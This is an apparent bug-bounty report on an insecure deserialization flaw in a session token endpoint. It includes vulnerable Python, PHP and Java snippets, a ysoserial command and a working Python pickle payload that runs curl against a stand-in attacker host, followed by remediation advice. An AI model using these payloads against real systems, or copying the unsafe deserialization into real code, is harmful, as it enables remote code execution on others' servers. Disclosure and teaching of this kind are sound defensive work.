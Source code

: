 # 🐞 Insecure Deserialization Vulnerability Report

---

## 📌 Title

**Insecure Deserialization in Session Token Handling Leads to Remote Code Execution (RCE)**

---

## 📝 Description

An **Insecure Deserialization** vulnerability was identified in the application’s handling of serialized objects. The backend accepts untrusted data and deserializes it without verifying the data source or integrity, enabling attackers to craft malicious objects that result in remote code execution or logic manipulation.

Insecure deserialization is often used to exploit:

- **Remote Code Execution (RCE)**
- **Authentication Bypass**
- **Privilege Escalation**
- **Denial of Service (DoS)**

---

## 🌐 Affected Endpoint

- **URL**: `https://vulnerable-website.com/api/auth/session`
- **Method**: `POST`
- **Vulnerable Parameter**: `session_token` (Base64 encoded serialized data)

---

## ⚙️ Vulnerable Code Snippet (Python / PHP / Java Example)

```python
# ❌ Python example
import pickle
def load_session(token):
    return pickle.loads(base64.b64decode(token))  # Vulnerable
```

```php
// ❌ PHP example
$session = unserialize(base64_decode($_POST['session_token']));
```

```java
// ❌ Java example
ObjectInputStream ois = new ObjectInputStream(inputStream);
Object obj = ois.readObject(); // No validation
```

---

## 🧪 Steps to Reproduce

### ✅ Prerequisites

- Any intercepting proxy (Burp Suite, Postman, etc.)
- Ability to send custom session tokens
- Optional: use tools like `ysoserial`, `marshalsec`, or `pickletools`

---

### 🔁 Step-by-Step

#### Step 1: Capture Valid Request

```http
POST /api/auth/session HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/json

{
  "session_token": "gASV...=="  // base64 encoded serialized object
}
```

#### Step 2: Craft Malicious Payload

Using `ysoserial` for Java (example):

```bash
java -jar ysoserial.jar CommonsCollections6 'curl attacker.com' > payload.ser
```

Or Python:

```python
import pickle, base64, os

class RCE:
    def __reduce__(self):
        return (os.system, ('curl http://attacker.com',))

payload = base64.b64encode(pickle.dumps(RCE()))
print(payload)
```

#### Step 3: Replace Token

```json
{
  "session_token": "<malicious_base64_payload>"
}
```

#### Step 4: Send Request

✅ The server executes the command or performs unauthorized actions.

---

## 💣 Proof of Concept (PoC)

**Python RCE PoC Payload**

```python
import pickle, base64, os

class RCE:
    def __reduce__(self):
        return (os.system, ("curl http://yourhost.com/ping",))

print(base64.b64encode(pickle.dumps(RCE())))
```

Send the payload via:

```http
POST /api/auth/session
{
  "session_token": "gASVNwAAAAAAAACMCnN5c3RlbQpzCnN5c3RlbQp..."  // shortened
}
```

---

## 🔥 Impact

- **Remote Code Execution (RCE)**
- **Authentication/Session Hijacking**
- **Privilege Escalation**
- **Logic Tampering**
- **Data Exfiltration**
- **Denial of Service (DoS)**

---

## 🔧 Recommended Remediation

- ❌ Do **not** deserialize user input
- ✅ Use **signed** and **encrypted** tokens (JWT, etc.)
- ✅ Use safe serialization formats: JSON, XML with schema validation
- ✅ Use allow-lists for class deserialization in Java

### Secure Alternatives:

- Replace `pickle`, `unserialize`, `ObjectInputStream` with safer libraries
- In Java: Use `Kryo`, `Jackson` (with type restrictions)
- In Python: Use `json.loads()` instead of `pickle`

---

## 🔐 Security Best Practices

- Never trust client-supplied data for deserialization
- Use integrity checks (HMAC, digital signature)
- Implement logging for all deserialization errors
- Use deserialization sandboxing (Java SecurityManager or containers)

---

## 🧾 References

- [OWASP - Insecure Deserialization](https://owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data)
- [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
- [PortSwigger - Deserialization Exploits](https://portswigger.net/web-security/deserialization)
- [PayloadsAllTheThings - Deserialization](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization)

---

## 📅 Report Date

**2025-06-17**

---

## 🧑‍💻 Reported By

- **Security Researcher**: raghav  
- **Tools Used**: Burp Suite, Python, ysoserial  
- **Severity**: **Critical**

---

> ⚠️ This issue is reported responsibly. Please verify the finding. Bug bounty reward appreciated if valid.
